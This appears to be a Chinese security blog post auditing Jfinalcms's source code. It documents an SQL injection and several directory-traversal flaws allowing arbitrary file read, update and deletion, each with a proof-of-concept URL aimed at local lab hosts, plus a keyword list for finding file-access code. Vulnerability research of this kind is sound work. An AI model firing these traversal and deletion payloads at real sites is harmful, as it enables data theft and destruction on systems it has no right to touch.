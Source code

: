# Jfinalcms代码审计


<!--more-->





## 简介

框架使用的Jfinal，模板引擎使用的beetl

项目中的pom.xml记录了项目需要的依赖及其版本信息等，审计源码前，可以看看项目的给类依赖是否为存在漏洞的版本，如果有可以针对某个依赖的当前版本存在的漏洞进行验证。







## SQL注入



jfinal 框架下的预处理为如下，使用占位符：

```java
Long count = Db.queryLong("select count(1) from cms_admin where username = ?",username);
```



这里使用拼接方式进行数据查询，导致SQL注入：

![image-20240707190258530](https://geoer666-1257264766.cos.ap-beijing.myqcloud.com/typora/image-20240707190258530.png)

网上追溯，找到source点：

找到在`com/cms/controller/admin/AdminController.java#index()`里，传入的name、username参数未做任何处理就被传递给`findPage()`，那么这里是存在SQL注入的。

![image-20240707190317616](https://geoer666-1257264766.cos.ap-beijing.myqcloud.com/typora/image-20240707190317616.png)



测试：

![image-20240707190517209](https://geoer666-1257264766.cos.ap-beijing.myqcloud.com/typora/image-20240707190517209.png)

![image-20240707190510186](https://geoer666-1257264766.cos.ap-beijing.myqcloud.com/typora/image-20240707190510186.png)



直接用sqlmap跑：

```
http://localhost:8080/admin/admin?name=1
```

![image-20240707190900237](https://geoer666-1257264766.cos.ap-beijing.myqcloud.com/typora/image-20240707190900237.png)





## XSS











## 前台任意文件读取

网上已知这个漏洞的poc：`/common/down/file?filekey=/../../../../../../../../../etc/passwd`

我们根据poc去寻找一下，搜索`/common/down`

![image-20240707170721178](https://geoer666-1257264766.cos.ap-beijing.myqcloud.com/typora/image-20240707170721178.png)



可以看到直接从前端获取文件参数，且没有进行过滤，可以使用`../`跨目录读取文件：

![image-20240707170813575](https://geoer666-1257264766.cos.ap-beijing.myqcloud.com/typora/image-20240707170813575.png)



构造请求：

```
http://192.168.3.214:8080/common/down/file?fileKey=/../../../../../../../../../../../../../../../../../tmp/flag.txt
```



![image-20240707171313474](https://geoer666-1257264766.cos.ap-beijing.myqcloud.com/typora/image-20240707171313474.png)





## 任意文件读取

可以搜索的关键字：

```
org.apache.commons.io.FileUtils
org.springframework.stereotype.Controller
import java.nio.file.Files
import java.nio.file.Path
import java.nio.file.Paths
import java.util.Scanner
sun.nio.ch.FileChannelImpl
java.io.File.list/listFiles
java.io.FileInputStream
java.io.FileOutputStream
java.io.FileSystem/Win32FileSystem/WinNTFileSystem/UnixFileSystem
sun.nio.fs.UnixFileSystemProvider/WindowsFileSystemProvider
java.io.RandomAccessFile
sun.nio.fs.CopyFile
sun.nio.fs.UnixChannelFactory
sun.nio.fs.WindowsChannelFactory
java.nio.channels.AsynchronousFileChannel
FileUtil/IOUtil
BufferedReader
readAllBytes
scanner
```



漏洞点在后台：点击“编辑”的时候，响应会显示文件内容

这个漏洞点在`com/cms/controller/admin/TemplateController.java`中的edit方法：

![image-20240707172003419](https://geoer666-1257264766.cos.ap-beijing.myqcloud.com/typora/image-20240707172003419.png)



如果目录**directory**为空的话，则默认就是要传入的文件名

```java
	/**
	 * 编辑
	 */
	public void edit() {
		String fileName = getPara("fileName");
		String directory = getPara("directory");
		if (StringUtils.isBlank(fileName)) {    //filename不能为空
			render(CommonAttribute.ADMIN_ERROR_VIEW);
			return;
		}
		setAttr("directory", directory);
		setAttr("fileName", fileName);
		String filePath = "";
		if(StringUtils.isNotBlank(directory)){   // 目录directory为空和不为空是两种情况，如果目录不为空，则就是以那个目录开始寻找文件
			filePath = "/"+directory.replaceAll(",", "/")+"/"+fileName; //把逗号替换为/,拼接为完整的路径
		}else{
			filePath = "/"+fileName;  //如果目录directory为空的话，则默认就是要传入的文件名
		}
		setAttr("content", StringEscapeUtils.escapeHtml(TemplateUtils.read(filePath)));  //读取
		render(getView("template/edit"));
	}

```



Poc:

```bash
# directory为空
http://192.168.3.214:8080/admin/template/edit?fileName=../../../../../../../../../../../../../../../../../../tmp/flag.txt

# directory不为空
http://192.168.3.214:8080/admin/template/edit?fileName=../../../../../../../../../../../../../../../../../../tmp/flag.txt&directory=default,static
```

![image-20240707172428224](https://geoer666-1257264766.cos.ap-beijing.myqcloud.com/typora/image-20240707172428224.png)



![image-20240707172734102](https://geoer666-1257264766.cos.ap-beijing.myqcloud.com/typora/image-20240707172734102.png)





## 任意文件删除

都是`admin/template`接口中的，这个是`delete`



可以看到没有任何过滤，可以删除任意文件：

![image-20240707172856234](https://geoer666-1257264766.cos.ap-beijing.myqcloud.com/typora/image-20240707172856234.png)

![image-20240707172912044](https://geoer666-1257264766.cos.ap-beijing.myqcloud.com/typora/image-20240707172912044.png)





测试：

```
http://192.168.3.214:8080/admin/template/delete?fileName=../../../../../../../../../../../../../../../../../../tmp/flag.txt
```



![image-20240707173853637](https://geoer666-1257264766.cos.ap-beijing.myqcloud.com/typora/image-20240707173853637.png)



同理，update也一样

![image-20240707174007145](https://geoer666-1257264766.cos.ap-beijing.myqcloud.com/typora/image-20240707174007145.png)







## 任意文件读取



```
http://192.168.3.214:8080/ajax/html?html=../../../../../../../../../../../../../../../../../../tmp/flag.txt
```



目录穿越 直接渲染读取:

![image-20240707174123502](https://geoer666-1257264766.cos.ap-beijing.myqcloud.com/typora/image-20240707174123502.png)



## SSTI

待复现



















---

> 作者: [剑胆琴心](http://shuai06.github.io)  
> URL: https://shuai06.github.io/jfinalcms%E4%BB%A3%E7%A0%81%E5%AE%A1%E8%AE%A1/  

